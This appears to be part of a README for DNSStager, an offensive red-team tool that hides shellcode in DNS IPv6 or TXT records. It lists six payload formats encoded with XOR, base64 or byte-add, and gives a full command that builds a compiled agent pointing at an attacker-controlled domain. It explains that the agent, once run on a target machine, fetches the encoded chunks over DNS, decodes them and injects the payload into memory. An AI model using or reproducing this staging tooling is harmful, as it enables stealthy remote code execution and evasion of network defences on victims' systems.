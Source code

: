 ```
askar•/opt/redteaming/DNSStager(main⚡)» sudo ./dnsstager.py --payloads                                                                                                

[+] 6 DNSStager payloads Available

x64/c/ipv6			Resolve your payload as IPV6 addresses xored with custom key via compiled x64 C code
x86/c/ipv6			Resolve your payload as IPV6 addresses xored with custom key via compiled x86 C code
x64/golang/txt			Resolve your payload as TXT records encoded using base64 compiled x64 GoLang code
x64/golang/ipv6			Resolve your payload as IPV6 addresses encoded with custom key using byte add encoding via compiled x64 GoLang code
x86/golang/txt			Resolve your payload as TXT records encoded using base64 compiled x86 GoLang code
x86/golang/ipv6			Resolve your payload as IPV6 addresses encoded with custom key using byte add encoding via compiled x86 GoLang code
```
## Example of using DNSStager with IPV6

This example will start DNSStager to resolve your payload as `IPV6` using the domain `test.mydnsserver.live` with prefix `cloud-srv-` to generate compiled `x64 C` agent encoded with 0x10 as key:

`sudo ./dnsstager.py --domain test.mydnsserver.live --payload x64/c/ipv6 --output /tmp/a2.exe --prefix cloud-srv- --shellcode_path ~/payload.bin --sleep 1 --xorkey 0x10
`  

And the output will be:

![Alt text](screenshots/Starting-DNSStager-x64-ipv6.png)

And to check if everything is working well, lets send DNS query to `cloud-srv-0.test.mydnsserver.live` to get the following:

![Alt text](screenshots/DNSStager-dig-test.png)

We can see that we received `f642:89ee:fae2:c20a:a0a:4b5b:4b5a:585b` as response which is the first 16 bytes of our encoded payload.

Then you can execute the agent `/tmp/a2.exe` (as set in using --output in the comand line) on the target machine and that will download all of the chunks required, decode them and inject them into memory for you.

# Resources

* [DNSStager v1.0 stable: stealthier code, DLL agent & much more](https://shells.systems/?p=2112).
* [Unveiling DNSStager: A tool to hide your payload in DNS](https://shells.systems/unveiling-dnsstager-a-tool-to-hide-your-payload-in-dns/).

# License

This project is licensed under the GPL-3.0 License - see the LICENSE file for details
